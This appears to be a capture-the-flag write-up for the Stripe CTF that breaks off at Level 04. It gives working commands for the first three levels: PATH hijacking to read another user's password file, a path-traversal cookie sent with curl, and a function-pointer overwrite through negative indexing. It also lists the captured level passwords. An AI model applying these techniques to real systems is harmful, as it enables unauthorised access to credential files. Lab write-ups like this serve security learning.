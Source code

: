 Password for the flag:

theflagl0eFTtT5oi0nOTxO5

#Level 01:


    level01@ctf5:/tmp/tmp.wDAihwYEyF$ echo -e '#!/bin/sh\ncat /home/level02/.password' > date
    level01@ctf5:/tmp/tmp.wDAihwYEyF$ chmod a+x date
    level01@ctf5:/tmp/tmp.wDAihwYEyF$ export PATH=$PWD:$PATH
    level01@ctf5:/tmp/tmp.wDAihwYEyF$ /levels/level01
    Current time: kxlVXUvzv

#Level 02:
---------

    level02@ctf6:/tmp/tmp.pgI0ftRHDR$ curl -H 'Cookie:user_details=../../../..//home/level03/.password' --digest -u level02:kxlVXUvzv http://ctf.stri.pe/level02.php

    <html>
      <head>
        <title>Level02</title>
      </head>
      <body>
        <h1>Welcome to the challenge!</h1>
        <div class="main">
          <p>Or0m4UX07b
    </p>
                <form action="#" method="post">
            Name: <input name="name" type="text" length="40" /><br />
            Age: <input name="age" type="text" length="2" /><br /><br />
            <input type="submit" value="Submit!" />
          </form>
              </div>
      </body>
    </html>


#Level 03

level03 doesn't do negative bounds checking on the user input. also, the address of the buffer in the "truncate_and_call" method is a negative distance from the address of the fn_ptr array. by passing in the difference as the first argument the program will try to use the first 4 characters of the buffer as a function address. I passed the address of the "run" method in the second argument into the buffer. The program would then try to execute a program with the same name as the 2nd argument so I created such a program.


    level03@ctf5:/tmp/tmp.XjSS3WhsjY$ PAYLOAD=`printf "\x5b\x87\x04\x08"`
    level03@ctf5:/tmp/tmp.XjSS3WhsjY$ echo -e '#!/bin/sh\ncat /home/level04/.password' > $PAYLOAD
    level03@ctf5:/tmp/tmp.XjSS3WhsjY$ chmod a+x $PAYLOAD
    level03@ctf5:/tmp/tmp.XjSS3WhsjY$ export PATH=$PWD:$PATH
    level03@ctf5:/tmp/tmp.XjSS3WhsjY$ /levels/level03 -28 "$PAYLOAD"


#Level 04

